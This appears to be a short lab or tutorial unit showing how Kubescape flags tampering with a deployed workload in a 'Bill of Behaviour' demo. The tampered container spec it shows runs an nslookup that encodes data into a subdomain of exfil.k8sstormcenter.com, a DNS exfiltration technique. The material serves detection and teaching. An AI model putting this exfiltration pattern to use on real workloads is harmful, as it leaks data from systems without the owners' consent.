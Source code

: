 ```yaml
---
kind: unit

title: Use the Bill of Behaviour

name: bob-use
---
```


__THIS PART WILL SHOW HOW KUBESCAPE WORKS FOR THE CUSTOMER DURING BOBTEST IF A TAMPERING IS FOUND__
Now with tampering
## 3 deploy artefact 


```sh
cd traces/kubescape-verify/attacks/webapp_t/
chmod +x setup.sh
./setup.sh
```


if you deployed the tampered one, notice

```
    - args:
      - /bin/sh
      - -c
      - nslookup NjQgYnl0ZXMgZnJvbSAxNzIuMTYuMC4yOiBpY21wX3NlcT0zIHR0bD02MyB0aW1lPTAuNDUzIG1z.exfil.k8sstormcenter.com
        > /dev/null 2>&1
      path: /bin/sh
```

